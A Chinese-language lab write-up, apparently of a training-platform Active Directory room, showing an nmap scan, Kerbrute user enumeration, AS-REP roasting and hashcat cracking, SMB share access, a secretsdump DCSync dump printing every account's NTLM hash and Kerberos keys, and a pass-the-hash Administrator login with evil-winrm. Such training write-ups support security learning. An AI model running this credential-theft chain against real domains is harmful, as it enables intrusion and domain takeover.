<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->


### 任务二

安装Impacket    git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
安装 Impacket    pip3 install -r /opt/impacket/requirements.txt    cd /opt/impacket/ && python3 ./setup.py install
安装 Bloodhound 和 Neo4j    apt install bloodhound neo4j


``` Shell
nmap -T4 -n -sC -sV -Pn -p- 10.10.113.186        
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-26 07:45 UTC
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.16% done
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.25% done; ETC: 07:51 (0:05:48 remaining)
Stats: 0:01:22 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 23.65% done; ETC: 07:51 (0:04:18 remaining)
Stats: 0:02:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.63% done; ETC: 07:51 (0:03:27 remaining)
Stats: 0:02:50 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.01% done; ETC: 07:51 (0:02:48 remaining)
Stats: 0:03:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 65.93% done; ETC: 07:51 (0:01:54 remaining)
Stats: 0:05:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 94.79% done; ETC: 07:51 (0:00:17 remaining)
Stats: 0:05:36 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.60% done; ETC: 07:51 (0:00:01 remaining)
Stats: 0:05:44 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 14.81% done; ETC: 07:52 (0:00:35 remaining)
Nmap scan report for 10.10.113.186
Host is up (0.00047s latency).
Not shown: 65508 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-26 07:51:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-02-26T07:52:32+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2025-02-25T07:41:19
|_Not valid after:  2025-08-27T07:41:19
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-26T07:52:25+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
49830/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:48:64:24:04:BF (Unknown)
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-26T07:52:25
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: ATTACKTIVEDIREC, NetBIOS user: <unknown>, NetBIOS MAC: 0248642404bf (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 400.87 seconds
```



枚举域控制器
Kerberos是Active Directory的身份验证服务，使用Kerbrute进行暴力破解

```
./kerbrute -h
```




``` Shell
./kerbrute userenum --dc spookysec.local -d spookysec.local names.txt
```

账号和密码在题目中给出了。得到结果

```
james@spookysec.local
svc-admin@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
administrator@spookysec.local
backup@spookysec.local
paradox@spookysec.local
```

`GetNPUsers.py`该工具允许从密钥分发中心查询 ASReproastable 帐户`https://github.com/fortra/impacket`

``` Shell
python3 GetNPUsers.py -dc-ip spookysec.local spookysec.local/svc-admin -no-pass
```




```
svc-admin@SPOOKYSEC.LOCAL:457e09d7ed42ec8c26642922bb981b47$e43e2ca35056e471f66faf765e0f19feaea35e5b43b23189adb428293ec9647797d8ba3e1c739b6a38fd162c6742b5f5b59e63be475be37d28c08261163b8909856024718c23c04f05281cab1fa47e457d966586d8894ea34d3aec6c8169a68383d8b2016d5f9576a7cc7e4a5629f233a845af6fd2b8764efec02ed281afc87fb872a3c5e62452b53299abd0dd61174ed69095442910cb4214322f769c6957c906514ef723da659b6871cdfcfe11f9a1e9364c36e7121cff7f2f1979f0bd727537e4f2d633a0670d4e1fc995e9602fd2193a9070283938260760413243072f205eb7e5af0bfe2a7a99b7fc0e59616286ef78
```

破解哈希

```
hashcat -a 0 -m 18200 hash.txt password.txt --force
```

password.txt题目给出


使用域控制器上的用户凭据访问的共享

``` Shell
smbclient -L \\\\10.10.113.186\\ -U 'svc-admin'
```



尝试SMB登录 

``` Shell
smbclient \\\\spookysec.local\\backup -U 'svc-admin'
```



dir查看当前目录下有一个文件，下载到本地看看





base64解码




接下来尝试提权
backup账号具有唯一权限，允许所有 Active Directory 更改与此用户帐户同步，secretsdump.py转储密码哈希

``` Shell
python3 /usr/local/bin/secretsdump.py -dc-ip spookysec.local backup:backup2517860@spookysec.local

/usr/local/bin/secretsdump.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250220.93348.6315ebd5', 'secretsdump.py')
Impacket v0.13.0.dev0+20250220.93348.6315ebd5 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:e41982b961d3458c3d6c0f5f2a950444:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:8e26a94b5fa649370d1db6d6d880d828695cbbd72e7c7ff5592f6b0fc323e7c9
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:2cee860bcb9df12d2ef4eac141cf6aa2
ATTACKTIVEDIREC$:des-cbc-md5:9426b6febf6dc2ab
[*] Cleaning up... 
```



使用evilwinrm 工具传递哈希尝试管理员账户的哈希登录

``` Shell
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i spookysec.local
```







